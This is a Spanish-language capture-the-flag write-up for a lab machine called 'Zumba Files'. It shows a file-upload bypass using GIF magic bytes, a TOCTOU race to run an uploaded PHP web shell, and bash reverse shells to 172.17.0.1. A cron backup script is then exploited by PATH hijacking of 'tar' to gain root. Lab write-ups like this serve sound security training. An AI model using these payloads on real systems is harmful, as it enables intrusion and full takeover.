---

# Descripcion

La máquina explota una vulnerabilidad de Arbitrary File Upload que permite ejecutar código PHP mediante un bypass de Magic Bytes y aprovechar una condición TOCTOU para obtener una reverse shell. Posteriormente, mediante la enumeración de tareas Cron, descubrimos un script de copias de seguridad vulnerable a PATH Hijacking, lo que nos permite escalar privilegios hasta obtener acceso como root.

---

# Reconocimiento

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar cuáles se encuentran abiertos.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 172.17.0.2

Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-07 00:51 +0100
Initiating ARP Ping Scan at 00:51
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:51, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 00:51
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:51, 0.41s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 12:61:33:CE:E4:56 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para detectar los servicios y sus versiones.

```bash
$ nmap -p80 -sC -sV 172.17.0.2

Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-07 00:51 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000090s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.69 ((Debian))
|_http-title: Zumba Files — Envía archivos en segundos
|_http-server-header: Apache/2.4.69 (Debian)
MAC Address: 12:61:33:CE:E4:56 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

## Web

> Analizamos las tecnologías del sitio web utilizando **WhatWeb**:

```bash
$ whatweb http://172.17.0.2

http://172.17.0.2 [200 OK] Apache[2.4.69], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.69 (Debian)], IP[172.17.0.2], Script, Title[Zumba Files — Envía archivos en segundos]
```

> Vamos a comprobar qué encontramos en la página web.



> Encontramos un panel que permite subir archivos al servidor. Vamos a realizar una primera subida mientras interceptamos la petición con **Burp Suite** para analizar cómo funciona el proceso.



> Observamos que el servidor nos devuelve la URL donde se almacena el archivo. En este caso, la ruta es `/uploads/test.png`. Vamos a acceder directamente a ella: `http://172.17.0.2/uploads/test.png`.



> Comprobamos que podemos acceder a la imagen correctamente. Además, si visitamos `/uploads`, vemos que también tenemos acceso al listado completo del directorio.



# Shell como www-data

## Enumeracion Arbitrary File Upload

> Vamos a intentar abusar del mecanismo de subida de archivos para cargar un archivo `.php`. Para ello, modificaremos el contenido de la petición y cambiaremos el nombre del archivo para utilizar la extensión `.php`.



> Al modificar el contenido y utilizar la extensión `.php`, el servidor nos indica que únicamente admite imágenes. Vamos a probar a incluir los **Magic Bytes** correspondientes al formato GIF para comprobar si podemos realizar un bypass de esta validación.



> De esta forma, conseguimos que el servidor acepte el archivo con extensión `.php`. Ahora vamos a añadir código PHP que nos permita ejecutar comandos mediante el parámetro `cmd`.

```php
<?php
    system($_GET['cmd']);
?>
```



> El servidor nos devuelve un mensaje indicando que el contenido es potencialmente peligroso. Sin embargo, observamos que la petición tarda bastante en completarse, como si el servidor estuviese ejecutando algún proceso adicional.
>
> Esto nos lleva a pensar que el archivo podría estar subiéndose primero y que la comprobación del contenido malicioso se realiza posteriormente. Vamos a comprobar si podemos acceder al archivo durante ese intervalo.

> Enviamos la petición y comprobamos el contenido del directorio `uploads`.



## TOCTOU

>[!NOTE]
>TOCTOU (Time-of-Check to Time-of-Use) es una vulnerabilidad de seguridad de tipo condición de carrera que ocurre cuando un programa verifica el estado de un recurso y luego lo utiliza, permitiendo que un atacante modifique el recurso durante la brecha temporal entre ambas acciones.

> Una vez finaliza la comprobación, el servidor elimina el archivo. Por tanto, estamos ante una vulnerabilidad **TOCTOU**, que se produce cuando existe una diferencia temporal entre la comprobación de un recurso y su utilización.
>
> En este caso, podemos aprovechar el intervalo de tiempo durante el cual el archivo permanece disponible antes de ser eliminado. Vamos a modificar el código PHP para ejecutar una reverse shell.

```php
<?php
    system('bash -c "bash -i >& /dev/tcp/172.17.0.1/7777 0>&1"');
?>
```

- Iniciamos un listener con Netcat:

```bash
nc -nvlp 7777
```

> Conseguimos ejecutar `test.php` aprovechando los aproximadamente 4 segundos que tarda el servidor en eliminarlo. De esta forma, obtenemos una reverse shell.



# Shell como root

## Enumeracion

> Una vez dentro del sistema, vamos a examinar los procesos en ejecución para identificar posibles tareas o servicios interesantes.

```bash
$ ps faux
```



> Observamos que se está ejecutando `cron`, entre otros procesos. Vamos a comprobar las tareas programadas del sistema para buscar alguna posible vía de escalada de privilegios.

```bash
$ cat /etc/cron.d/*
# /etc/cron.d/php@PHP_VERSION@: crontab fragment for PHP
#  This purges session files in session.save_path older than X,
#  where X is defined in seconds as the largest value of
#  session.gc_maxlifetime from all your SAPI php.ini files
#  or 24 minutes if not defined.  The script triggers only
#  when session.save_handler=files.
#
#  WARNING: The scripts tries hard to honour all relevant
#  session PHP options, but if you do something unusual
#  you have to disable this script and take care of your
#  sessions yourself.

# Look for and purge old sessions every 30 minutes
09,39 *     * * *     root   [ -x /usr/lib/php/sessionclean ] && if [ ! -d /run/systemd/system ]; then /usr/lib/php/sessionclean; fi
# Copia de seguridad de las subidas de Zumba Files (cada minuto)
* * * * * root /opt/zumba/backup.sh >/dev/null 2>&1
```

> Encontramos una tarea Cron que ejecuta `/opt/zumba/backup.sh` como usuario `root` cada minuto. Vamos a comprobar los permisos del archivo.

```bash
$ ls -l /opt/zumba/backup.sh

-rwxr-xr-x 1 root root 755 Oct 27 22:00 /opt/zumba/backup.sh
```

> El archivo pertenece a `root`, aunque nosotros disponemos de permisos de lectura y ejecución. Vamos a examinar su contenido para comprobar qué acciones realiza.

```bash
#!/bin/bash
#
# Zumba Files — copia de seguridad periódica de la carpeta de subidas.
# Pensado para ejecutarse desde cron. Comprime /var/www/html/uploads en
# /var/backups para poder recuperar envíos recientes si algo va mal.
#
# NOTA del equipo: cargamos nuestro directorio de utilidades propio delante
# del PATH para poder usar versiones "tuneadas" de las herramientas de backup.
export PATH=/opt/zumba/bin:$PATH

STAMP=$(date +%Y%m%d-%H%M%S)
cd /var/www/html/uploads || exit 0

# Empaquetamos el contenido actual de la carpeta de subidas.
tar -czf "/var/backups/uploads-${STAMP}.tar.gz" . 2>/dev/null

# Rotación simple: conservamos solo las 5 copias más recientes.
ls -1t /var/backups/uploads-*.tar.gz 2>/dev/null | tail -n +6 | xargs -r rm -f
```

## PATH Hijacking

> En el script encontramos algo interesante: se utiliza la variable de entorno `PATH`, colocando `/opt/zumba/bin` al principio. Esto significa que, cuando se ejecuten comandos utilizando rutas relativas, el sistema buscará primero los binarios dentro de ese directorio.
>
> Vamos a comprobar los permisos de la carpeta.

```bash
$ ls -la /opt/zumba

drwxr-xr-x 1 root     root     4096 Oct 27 22:02 .
drwxr-xr-x 1 root     root     4096 Oct 27 22:02 ..
-rwxr-xr-x 1 root     root      755 Oct 27 22:00 backup.sh
drwxrwxr-x 1 www-data www-data 4096 Oct 27 22:02 bin
```

> Observamos que el directorio `bin` pertenece al usuario `www-data` y dispone de permisos de escritura para su propietario y su grupo. Como estamos ejecutando comandos desde ese usuario, podemos escribir dentro de él.
>
> Por tanto, podemos realizar un **PATH Hijacking**. Esta técnica consiste en suplantar uno de los binarios que ejecuta un script cuando este utiliza el nombre del comando en lugar de su ruta absoluta.
>
> En nuestro caso, el script ejecuta `tar` sin especificar su ruta completa y utiliza un `PATH` que prioriza `/opt/zumba/bin`. Si creamos nuestro propio ejecutable llamado `tar` en ese directorio, será el que se ejecute cuando Cron lance el script.

- Creamos un archivo `tar` malicioso que establezca una reverse shell:

```bash
$ echo "bash -i >& /dev/tcp/172.17.0.1/8888 0>&1" > /opt/zumba/bin/tar
```

- Le damos permisos de ejecución:

```bash
$ chmod +x tar
```

> Ahora solo tenemos que iniciar un listener con Netcat y esperar a que Cron ejecute el script.

- Iniciamos el listener:

```bash
$ nc -nvlp 8888
```

> Esperamos a que se ejecute la tarea programada.



> ¡Conseguimos una reverse shell con privilegios de `root`!